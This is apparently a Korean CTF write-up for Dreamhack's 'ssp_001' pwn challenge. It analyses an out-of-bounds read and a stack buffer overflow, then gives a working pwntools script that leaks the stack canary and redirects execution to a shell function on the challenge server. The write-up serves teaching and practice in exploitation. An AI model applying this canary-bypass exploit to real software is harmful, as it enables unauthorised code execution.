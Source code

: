 # ssp_001 - Dreamhack
## Challenge Info
- Date: 2025-08-01
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: ssp_001.c, ssp_001(ELF)
- tools: gdb(pwndbg)
## Brief Description
이 문제는 작동하고 있는 서비스(ssp_001)의 바이너리와 소스코드가 주어집니다.
프로그램의 취약점을 찾고 SSP 방어 기법을 우회하여 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=ssp_001

Ubuntu:     16.04
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```
### main() 
다음의 3가지 기능를 제공한다.  
- [F]ill the box: `box` 버퍼에 최대 0x40 만큼 데이터를 쓴다.
- [P]rint the box: `box` 버퍼에서 사용자가 원하는 위치의 값을 1byte 읽는다.
- [E]xit: 사용자로부터 `name_len`을 입력받고 그 길이만큼 `name`에 데이터를 작성한다.  

### get_shell() 
``` c
void get_shell() {
    system("/bin/sh");
}
```
이번 문제는 쉘을 얻는 함수가 기본적으로 제공된다.  
## Vulnerability
### OOB(Out Of Bounds)
``` c
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}

// main 일부
case 'P':
    printf("Element index : ");
    scanf("%d", &idx);
    print_box(box, idx);
    break;
```
`idx` 변수의 값을 검증하지 않아서 OOB 취약점이 발생한다. `box` 버퍼를 넘어 상위 데이터를 읽을 수 있다.  
### BOF(Buffer Overflow)
``` c
case 'E':
    printf("Name Size : ");
    scanf("%d", &name_len);
    printf("Name : ");
    read(0, name, name_len);
    return 0;
```
`name_len`을 사용자가 직접 입력할 수 있기 때문에, BOF 취약점이 발생한다. `name` 버퍼를 넘어서 상위 데이터를 덮을 쓸 수 있다.  
## Exploit
### Strategy
`box`의 OOB 취약점을 이용해 카나리 값을 읽은 후, `name`으로 `ra`에 `get_shell`의 주소를 BOF할 때 카나리를 우회할 수 있도록 알맞은 위치에 읽어온 카나리 값을 삽입.
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | +0x4 |
| ebp |  |
| dummy | -0x4 |
| canary | -0x8 |
| name | -0x48 |
| box | -0x88 |
| select | -0x8a |
| dummy | -0x8c |
| name_len | -0x90 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 17131)
context.arch = "i386"

get_shell_addr = 0x080486b9
name_offset_from_canary = 0x40
name_offset_from_ra = 0x50 # 0x48(name + canary) + 0x4(ebp) + 0x4(ra)

# read canary
leak = 0
canary = []
idx = 0x80
for i in range(4) :
    p.recvuntil(b'> ')
    p.sendline(b'P')
    p.sendline(str(idx + i).encode())
    p.recvuntil(b'is : ')
    leak = int(p.recvline(), 16)
    canary.append(leak) 

canary = bytes(canary)

# debug
log.info(f'Leaked canary: {canary.hex()}')

# payload
payload = b''
payload += b'A' * name_offset_from_canary
payload += canary # 4byte
payload += b'B' * 0x8 # dummy + ebp
payload += p32(get_shell_addr)

# BOF
p.recvuntil(b'> ')
p.sendline(b'E')
p.recvuntil(b'Name Size : ')
p.sendline(str(name_offset_from_ra))
p.recvuntil(b'Name : ')
p.sendline(payload)

# sh
p.interactive()
```